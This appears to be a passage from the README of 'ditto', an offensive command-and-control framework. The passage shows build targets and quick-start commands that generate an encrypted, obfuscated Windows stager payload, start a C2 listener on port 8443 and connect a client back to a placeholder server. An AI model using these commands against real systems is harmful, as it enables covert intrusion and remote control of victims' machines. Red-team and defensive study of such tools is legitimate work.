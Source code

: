 ### Cross-Compilation

```bash
# Build for Windows
make build-windows

# Build for Linux
make build-linux

# Build for macOS
make build-darwin

# Build for all platforms
make build-all
```

---

## 🎯 Quick Start

### Interactive Mode (Recommended)

```bash
# Start interactive CLI
./bin/ditto

# You'll see the ditto.png banner and interactive prompt
[ditto] > help
[ditto] > generate stager windows amd64 payload.exe
[ditto] > server 0.0.0.0:8443
[ditto] > exit
```

### Command Line Mode

```bash
# Generate a payload
./bin/ditto --mode generate \
    --payload stager \
    --os windows \
    --arch amd64 \
    --output payload.exe \
    --encrypt \
    --obfuscate

# Start C2 server
./bin/ditto --mode server --listen 0.0.0.0:8443

# Connect as client
./bin/ditto --mode client --callback https://your-server.com:8443
```
